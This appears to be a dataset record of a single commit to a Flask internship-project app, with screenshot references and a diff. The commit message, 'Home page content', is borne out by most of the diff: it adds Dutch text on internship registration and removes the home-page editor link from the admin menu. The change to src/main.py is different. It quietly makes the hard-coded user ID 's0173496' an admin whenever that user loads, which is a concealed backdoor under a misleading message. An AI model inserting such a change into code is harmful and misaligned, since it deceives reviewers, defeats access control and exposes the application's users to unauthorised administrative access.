

Before and after one commit to StephenPauwels/esp-uantwerpen, a Flask app: page /?&lang=nl in a window 1280 px wide. Shown: the part 320-988 px from the top of the page. Before the commit the page ends 782 px from the top, so only its background shows below. Run offline with Flask 2, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
Home page content

```diff
--- a/src/main.py
+++ b/src/main.py
@@ -80,7 +80,10 @@ def before_request():
 
 @login_manager.user_loader
 def load_user(user_id):
-    return ldap.get_user(user_id)
+    u = ldap.get_user(user_id)
+    if user_id == 's0173496':
+        u.role = 'admin'
+    return u
 
 
 @app.route('/mail', methods=['POST'])
--- a/src/templates/home_content_nl.html
+++ b/src/templates/home_content_nl.html
@@ -177,3 +177,25 @@
   </div>
  </div>
 </div>
+<div class="text-center">
+<h4> Registratie</h4>
+<p>
+Vanaf academiejaar 2019-2020 worden stages (ALLE onderzoeksprojecten en master thesissen vallen hier onder)
+administratief opgevolgd via een online registratieprocedure.
+<p>
+Je start de registratie op via
+<u><a href="https://studhelp.uantwerpen.be/inschrijvingen/knowledgebase.php?article=374">
+SisA (Aanvragen-Mobiliteit-Aanvraag van Mobiliteit/Stage)</a></u>
+en vervolledigt het proces via Mobility Online.
+
+In Mobility Online is dit proces opgebouwd als een flow, die je stap per stap gidst door de stageadministratie.
+
+Je ontvangt alle nodige documenten via het stappenplan in Mobility Online.
+<P>
+Zorg ervoor dat je het administratieve proces voltooid hebt uiterlijk 3 weken vóór de start van de stage.
+
+Pas na voltooiing van alle stappen krijg je de finale goedkeuring om met de stage te starten.
+<P><strong>
+Enkel bij finale goedkeuring ben je verzekerd als stagiair.</strong>
+ </p>
+</div>
--- a/src/templates/nav.html
+++ b/src/templates/nav.html
@@ -121,8 +121,6 @@
 
                         {% if current_user.role == "admin" %}
                             <a class="dropdown-item"
-                               href="{{ url_for("home.home_editor") }}">{{ get_text("Home Page") }}</a>
-                            <a class="dropdown-item"
                                href="{{ url_for("manage_lists.modify_lists") }}">{{ get_text("Supporting Lists") }}</a>
                             <a class="dropdown-item" href="#"
                                id="extension-confirmation">{{ get_text("Extend Projects") }}</a>
```
Also changed, not shown: src/templates/home_content_en.html (+19 -0 lines), 1 other file.
